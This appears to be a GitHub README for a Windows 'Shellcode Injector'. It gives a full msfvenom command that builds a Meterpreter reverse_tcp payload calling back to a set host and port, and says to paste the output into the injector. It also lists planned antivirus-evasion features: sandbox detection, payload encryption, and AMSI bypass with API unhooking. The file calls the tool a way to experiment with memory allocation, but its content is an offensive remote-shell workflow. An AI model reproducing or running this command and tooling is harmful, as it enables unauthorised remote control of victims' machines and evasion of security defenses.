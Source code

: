 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

### UPDATES 
- Added IAT camouflage
- Added Force loading kernel32.dll
- More to come.. need to bypass runtime...

### To do
- Add Sanbox detection (behavioral evasion)
- Add payload encryption and decryption (static bypass)
- Bypass execution (amsi + api unhooking)
- Get shellcode from exe file and saving it in the var
- UI

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 

<img width="1037" height="619" alt="image" src="https://github.com/user-attachments/assets/f3bb8256-49f4-4cfe-b992-e6524c01ef37" />
